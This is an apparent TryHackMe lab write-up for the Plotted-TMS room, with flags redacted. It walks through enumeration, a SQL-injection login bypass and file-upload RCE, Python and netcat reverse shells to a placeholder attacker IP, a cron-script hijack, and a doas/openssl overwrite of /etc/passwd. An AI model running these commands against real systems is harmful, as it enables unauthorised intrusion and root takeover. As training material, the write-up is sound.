

# TryHackMe: Plotted-TMS

**Platform:** TryHackMe

**Room:** [Plotted-TMS](https://tryhackme.com/room/plottedtms)

**Difficulty:** Easy

**Focus:** Enumeration, hidden services, public exploit modification, cron job abuse, and doas privilege escalation.

**⚠️Disclaimer:** This writeup contains step-by-step solutions. Flags have been redacted to encourage active learning.

---

## 📑 Table of Contents

- [Setup & Connection](#setup--connection)
- [Reconnaissance](#reconnaissance)
- [Port 80: Decoys & Distractions](#port-80-decoys--distractions)
- [Port 445: The Real Target](#port-445-the-real-target)
- [Finding the Exploit](#finding-the-exploit)
- [Getting a Shell](#getting-a-shell)
- [Privilege Escalation: Cron Job](#privilege-escalation-cron-job)
- [Task 1 Answer: user.txt Flag](#task-1-answer-usertxt-flag)
- [Privilege Escalation: doas + openssl](#privilege-escalation-doas--openssl)
- [Task 2 Answer: root.txt Flag](#task-2-answer-roottxt-flag)
- [Conclusion](#conclusion)

---

## Setup & Connection

First, connect to the TryHackMe network using OpenVPN, then start the lab machine.

```bash
sudo openvpn <your_configuration_file>.ovpn
```

We get an IP and need to find both the user and root flags. Let's begin.

---

## Reconnaissance

First, we run an `nmap` scan with service detection against the target:

```bash
nmap -sV 10.128.163.112
```
```text
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-27 09:54 +0100
Nmap scan report for 10.128.163.112
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.03 seconds
```

We find 3 ports open:
- **22** — SSH
- **80** — HTTP (Apache)
- **445** — Strange... this is also an HTTP server, not SMB!

This is a great hint that something is hidden on port 445. Let's check port 80 first.

---

## Port 80: Decoys & Distractions

Visiting the site on port 80 shows the default Apache2 Ubuntu page:



We run `gobuster` to enumerate directories:

```bash
gobuster dir -u http://10.128.163.112/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```text
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.128.163.112/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htpasswd            (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.hta                 (Status: 403) [Size: 279]
admin                (Status: 301) [Size: 316] [--> http://10.128.163.112/admin/]
index.html           (Status: 200) [Size: 10918]
passwd               (Status: 200) [Size: 25]
server-status        (Status: 403) [Size: 279]
shadow               (Status: 200) [Size: 25]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

We find `/shadow`, `/passwd`, and `/admin`. However, these are all **decoys** to waste our time. Visiting `/admin` returns a Base64-encoded string:

```
VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE
```

Decoding it reveals:
```text
Trust me it is not this easy..now get back to enumeration :D
```

The `/shadow` and `/passwd` directories return the same Base64 string:
```
bm90IHRoaXMgZWFzeSA6RA==
```

Which decodes to:
```text
not this easy :D
```

OK, the decoys are confirmed. Let's move on to port 445.

---

## Port 445: The Real Target

Visiting port 445 also shows the default Apache2 Ubuntu page. We run `gobuster` again:

```bash
gobuster dir -u http://10.128.163.112:445/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```text
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.128.163.112:445/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 280]
.htaccess            (Status: 403) [Size: 280]
.htpasswd            (Status: 403) [Size: 280]
index.html           (Status: 200) [Size: 10918]
management           (Status: 301) [Size: 326] [--> http://10.128.163.112:445/management/]
server-status        (Status: 403) [Size: 280]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

We discover a `/management/` directory. This appears to be hosting an **Online Traffic Offense Management System**. Time to look for known vulnerabilities!

---

## Finding the Exploit

We run `searchsploit` to look for public exploits:

```bash
searchsploit Traffic Offense
```
```text
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Online Traffic Offense Management System 1.0 - 'id' SQL I | php/webapps/50218.txt
Online Traffic Offense Management System 1.0 - Multiple R | php/webapps/50389.txt
Online Traffic Offense Management System 1.0 - Multiple S | php/webapps/50387.txt
Online Traffic Offense Management System 1.0 - Multiple X | php/webapps/50388.txt
Online Traffic Offense Management System 1.0 - Privilage  | php/webapps/50392.txt
Online Traffic Offense Management System 1.0 - Remote Cod | php/webapps/50221.py
Simple Traffic Offense System 1.0 - Stored Cross Site Scr | multiple/webapps/50073.txt
Traffic Offense Management System 1.0 - Remote Code Execu | php/webapps/50244.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We mirror the RCE exploit to our local directory:

```bash
searchsploit -m php/webapps/50221.py
```

However, the original exploit is written in Python 2 (uses `raw_input`, `print` statements, etc.), so it's outdated and won't run on modern systems. I rewrote it for Python 3 and fixed a small issue with how the shell URL was being constructed. The updated version is included in this repo as [`exploit.py`](exploit.py).

The exploit chain works as follows:
1. **SQL Injection bypass** on the login form using `' OR 1=1-- '`
2. **Authenticated file upload** via the user profile page (`/admin/?page=user`)
3. The uploaded PHP file lands in a directory that allows execution
4. We can now run arbitrary commands via `?cmd=`

Running the exploit gives us a basic web shell:

```bash
python exploit.py
```
```text
Example: http://example.com

Url: http://10.128.163.112:445/management/
Check Url ...

[+] Bypass Login

[+] Upload Shell

[+] Exploit Done!

$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
plot_admin:x:1001:1001:,,,:/home/plot_admin:/bin/bash
```

---

## Getting a Shell

The web shell is nice, but a real reverse shell is much more comfortable. We set up a listener on our attack box:

```bash
nc -nvlp 1234
```

Then we use a Python one-liner through the web shell to get a reverse shell:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

We receive the shell and upgrade it to a proper TTY:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@plotted:/home/plot_admin$ 
```

---

## Privilege Escalation: Cron Job

Now we need to escalate privileges. We start by checking the cron jobs:

```bash
www-data@plotted:/home/plot_admin$ cat /etc/crontab
```
```text
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/usr/sbin:/usr/bin

# Example of job definition
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  * * * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   plot_admin /var/www/scripts/backup.sh
```

We notice a cron job running as `plot_admin` every minute: `/var/www/scripts/backup.sh`. Let's check the script:

```bash
www-data@plotted:/home/plot_admin$ cat /var/www/scripts/backup.sh
```
```text
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

We can't move this file, but we **can** remove it and replace it with our own. First we remove the original:

```bash
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? y
```

Then we create a new file with the same name containing a reverse shell payload:

```bash
www-data@plotted:/var/www/scripts$ echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4242 >/tmp/f" > backup.sh
```

Mark it as executable:

```bash
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
```

Open a new listener on our attack box:

```bash
nc -nvlp 4242
listening on [any] 4242 ...
```

Now we wait a minute for the cron job to fire. Once it does, we get a shell as `plot_admin`!

We upgrade the shell again:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
plot_admin@plotted:~$ 
```

---

## Task 1 Answer: user.txt Flag

Now that we're `plot_admin`, we can read the user flag:

```bash
plot_admin@plotted:~$ ls
tms_backup  user.txt
plot_admin@plotted:~$ cat user.txt
[REDACTED]
```

**What is user.txt?**
> ✅ **Answer:** `[REDACTED]`

*(Flag redacted. Walk the exploitation chain yourself to retrieve it!)*

---

## Privilege Escalation: doas + openssl

We don't have root yet, so we keep enumerating. Looking around, we find a `doas` configuration:

```bash
plot_admin@plotted:~$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```

`doas` is an alternative to `sudo` (popular on OpenBSD). This config allows `plot_admin` to run **`openssl`** as root without a password.

**The Trick:**

`openssl enc` can write to any file. So we can overwrite `/etc/passwd` with a version that has the `x` (password field) removed from root's line — meaning root will have no password and we can just `su` to it.

**Step 1:** Back up the original `/etc/passwd` so we can restore it later:

```bash
plot_admin@plotted:~$ cp /etc/passwd /tmp
```

**Step 2:** Echo the modified root line (with `x` removed) and pipe it through `doas openssl` to overwrite `/etc/passwd`:

```bash
plot_admin@plotted:~$ echo "root::0:0:root:/root:/bin/bash" | doas openssl enc -out /etc/passwd
```

**Step 3:** Switch to root with no password:

```bash
plot_admin@plotted:/tmp$ su
root@plotted:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

**Step 4:** Restore `/etc/passwd` from the backup so we don't break the system:

```bash
root@plotted:/tmp# mv /tmp/passwd /etc/
root@plotted:/tmp# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
plot_admin:x:1001:1001:,,,:/home/plot_admin:/bin/bash
```

Now everything is back to normal, and we still have root!

---

## Task 2 Answer: root.txt Flag

Now we can read the root flag:

```bash
root@plotted:/tmp# cd /root
root@plotted:~# ls
root.txt  snap
root@plotted:~# cat root.txt
Congratulations on completing this room!

[REDACTED]

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
```

**What is root.txt?**
> ✅ **Answer:** `[REDACTED]`

*(Flag redacted. Walk the privilege escalation chain yourself to retrieve it!)*

---

## Conclusion

The Plotted-TMS room is a great chain that rewards careful enumeration:

1. **Port 445 running HTTP** instead of SMB — the hint that something is hidden
2. **Base64-encoded decoys** on port 80 — distractions to test our patience
3. **Searchsploit + Python 3 port** of an outdated public exploit (SQLi + file upload RCE)
4. **Reverse shell upgrade** for a proper TTY
5. **Cron job abuse** — replacing a script run by `plot_admin` to escalate
6. **doas + openssl trick** — overwriting `/etc/passwd` to remove root's password

Big thanks to [**sa.infinity8888**](https://tryhackme.com/p/sa.infinity8888) for creating this room!

**Useful Resources:**
- [Exploit-DB #50221 - Online Traffic Offense Management System RCE](https://www.exploit-db.com/exploits/50221)
- [doas - Wikipedia](https://en.wikipedia.org/wiki/Doas)
